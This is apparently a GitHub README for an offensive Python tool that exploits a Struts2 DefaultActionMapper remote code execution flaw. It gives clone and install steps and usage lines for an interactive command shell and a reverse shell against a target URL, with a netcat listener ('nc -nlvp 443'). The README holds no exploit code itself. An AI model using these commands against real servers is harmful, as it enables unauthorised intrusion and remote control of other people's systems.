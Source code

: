 <h1 align="center">
<br>⚔️ Fucktruts2 ⚔️
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   fucktrusts2 is a python script for exploit a Struts2 DefaultActionMapper RCE.
   
![image](https://user-images.githubusercontent.com/80011252/199061368-838631c2-0751-4433-9696-b0d6d6ce0166.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/fucktrusts2.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
    ```
3. Interactive Shell
   ```py
   python3 main.py -t https://www.target.com/index.action -c | --cmd
   ```
4. Reverse Shell
   ```py
   python3 main.py -t https://www.target.com/index.action --lhost 127.0.0.1 --lport 443
   
   listen with nc
   
   nc -nlvp 443
   
   
   ```

Credits for ninj4c0d3r and ShellEvil tool

